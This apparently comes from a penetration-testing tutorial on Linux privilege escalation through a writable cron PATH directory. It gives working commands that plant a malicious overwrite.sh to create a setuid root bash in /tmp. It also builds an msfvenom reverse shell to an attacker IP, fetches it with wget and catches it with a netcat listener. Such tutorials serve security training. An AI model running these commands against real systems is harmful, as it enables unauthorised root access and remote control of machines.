 ```yaml
---
legal-banner: true
---
```


### **PATH Environment Variable**

In crontab, the default PATH environment variable is set to /usr/bin:/bin. However, this PATH can be overwritten within the crontab file. If a cron job script or program does not use an absolute path, and one of the directories in the PATH is writable by our user, we may be able to create a script or program with the same name as the cron job,This vulnerability allows us to run our own program/script instead of the intended cron job script, which could be exploited for various purposes.

### **Steps to Identify and Exploit PATH Environment Variable**

1.  Run LinPEAS to detect potential vulnerabilities, such as issues in the cron PATH.  
    
    ![](../../../../img/Linux-Environment/68.png) 
    
2.  We can Find where the overwrite.sh script is located using the find command:  
    `find / -iname overwrite.sh 2>/dev/null`  
    
    ![](../../../../img/Linux-Environment/69.png) 

    ??? info "NOTE"

        This indicates that overwrite.sh executes from the /usr/local/bin directory.
    
3.  Confirm that we have write permissions on the target directory:  
    `ls -la /home | grep "user"`  
    
    ![](../../../../img/Linux-Environment/70.png) 

    ??? info "NOTE"

        Here we see “w”, which means that we can write in this directory.
     
4.  To exploit this cron job, all we have to  craft a malicious payload named “overwrite.sh” and drop it in the /home/user/ folder.  
    `echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/rootme\nchmod +xs /tmp/rootme' > /home/user/overwrite.sh`
    
5.  In order for the cron job to execute our binary, Ensure the malicious script has execute permissions:  
    `chmod 755 /home/user/overwrite.sh`  

    ![](../../../../img/Linux-Environment/71.png) 
    
6.  Once the cron job has created and setuid rootbash, use it to open a shell with root privileges:  
    `/tmp/rootme -p`  
    
    ![](../../../../img/Linux-Environment/72.png) 
    
7.  Alternatively, use msfvenom to create a reverse shell payload:  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.92.52 LPORT=1337 -a x64 -f elf -o overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/73.png) 
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/overwrite.sh -O /home/user/overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/74.png) 
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod 755 ./overwrite.sh`  
    
    ![](../../../../img/Linux-Environment/75.png) 
    
10. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    ![](../../../../img/Linux-Environment/76.png) 